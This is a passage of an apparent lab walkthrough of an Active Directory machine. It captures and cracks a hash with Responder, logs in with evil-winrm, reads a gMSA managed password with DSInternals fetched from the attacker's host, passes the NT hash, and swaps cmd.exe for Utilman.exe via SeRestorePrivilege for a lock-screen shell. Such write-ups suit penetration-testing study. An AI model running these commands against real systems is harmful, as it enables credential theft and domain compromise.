# 8080


Now visiting our ip:
while running responder:
We can crack it:

Now logging in with evil-winrm:
```
evil-winrm -i 192.168.180.165 -u enox -p 'california'
```


Found a todo list:

Could do something with gMSA

# gMSA
Now to find gMSA:
```
Get-ADServiceAccount -Filter * -Properties * | Select SamAccountName,PrincipalsAllowedToRetrieveManagedPassword,msDS-ManagedPasswordInterval,ServicePrincipalNames
```

Web Admins are allowed to retrieve the password:

We belong to Web Admins.

To get password blob:
```
Get-ADServiceAccount  -Identity svc_apache -Properties 'msDS-ManagedPassword'
```
Now using DSInternals
```
wget http://192.168.45.167/DSInternals.zip -o DSInternals.zip
Unblock-File DSInternals.zip
Expand-Archive DSInternals.zip
cd DSInternals
cd DSInternals
import-module .\DSInternals.psd1
```
Now store the password as PSCredential object:
```
$cred = new-object system.management.automation.PSCredential "heist.offsec\svc_apache",(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword
```
Now login as svc_apache using PSSession:
```
Enter-PSSession -ComputerName DC01 -Credential $cred
```


We can also get NTLM Hashes with:
```
$gmsa = Get-ADServiceAccount -Identity "svc_apache" -Properties "msDS-ManagedPassword"
$mp = $gmsa.'msDS-ManagedPassword'
(ConvertFrom-ADManagedPasswordBlob $mp).SecureCurrentPassword | ConvertTo-NTHash

```
# SeRestorePrivilege

Now logging in with winrm with the hash:
```bash 
evil-winrm -i 192.168.180.165 -u 'svc_apache$' -H '023145fc00ce8bab62704eb63ab7bdab'
```

We have SeRestorPrivilege


Now using this page:
https://github.com/gtworek/Priv2Admin

```
ren "C:/Windows/System32/Utilman.exe"  Utilman.old
```
```
ren "C:/Windows/SYstem32/cmd.exe" Utilman.exe
```
Now we can get to the lockscreen with rdesktop:
```
rdesktop 192.168.180.254
```

Now press `win + U`

We can transfer rcat and execute to get a proper shell:
